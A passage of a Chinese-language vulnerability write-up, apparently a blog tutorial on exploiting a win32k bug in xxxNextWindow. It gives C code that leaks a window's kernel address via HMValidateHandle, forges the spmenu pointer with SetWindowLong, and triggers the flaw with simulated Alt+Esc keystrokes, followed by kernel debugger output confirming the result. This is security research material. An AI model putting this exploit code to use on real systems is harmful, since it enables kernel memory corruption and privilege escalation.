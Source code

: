 ```

    DWORD dwTriggerAddr = 0;
    lHMValidateHandle HMValidateHandle =  (lHMValidateHandle)GetHMValidateHandle();

    PTHRDESKHEAD pTriggerHead = (PTHRDESKHEAD)HMValidateHandle(hTriggerWnd, TYPE_WINDOW);

    dwTriggerAddr = (DWORD)pTriggerHead->pSelf;

    // 设置子窗口带WS_CHILD标记
    // 这样GetNonChildAncesstor就会返回其父窗口，即hDesktop
    SetWindowLong(hTriggerWnd, GWL_STYLE, (WS_VISIBLE | WS_CHILD));

    CONST DWORD dwCbExOffset = 0x90;
    DWORD dwValue = 0;

    dwValue = dwTriggerAddr + dwCbExOffset + 3 - 0x14;
    // 设置子窗口的spwnd为cbwndExtra + 3的位置
    SetWindowLong(hTriggerWnd, GWL_ID, dwValue);

    // 将桌面窗口，也就是父窗口置于最前面
    // 模拟Alt + Esc按键触发漏洞
    SwitchToThisWindow(hDesktop, TRUE);
    keybd_event(VK_MENU, 0, 0, 0);
    keybd_event(VK_ESCAPE, 0, 0, 0);

exit:
    if (hTriggerWnd)
    {
        if (!DestroyWindow(hTriggerWnd))
        {
            bRet = FALSE;
        }
    }
    return bRet;
}
```  
  
  
此时在xxxNextWindow对spmenu是否为0处下断点，查看此时的tagWND地址为0xFEA1C200，那么cbwndExtra的地址就是0xFEA1C290：  
```
kd> g
Breakpoint 0 hit
win32k!xxxNextWindow+0x3cf:
969e859e 394b78          cmp     dword ptr [ebx+78h],ecx
kd> r ebx
ebx=fea1c200
```  
  
  
spmenu为0xFEA1C27F，等于0xFEA1C200 + 0x90 + 0x3 - 0x14，成功指向cbwndExtra + 0x3处的地址，此时的cbwndExtra为0。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H927eQIguHibTpiaQzZ1q3Lsm3cLlhBmQxo2wvOe64gAq5l2cJmYQgjGWXJh0VnaICoXuVXjM3icrhw/640?wx_fmt=png "")  
  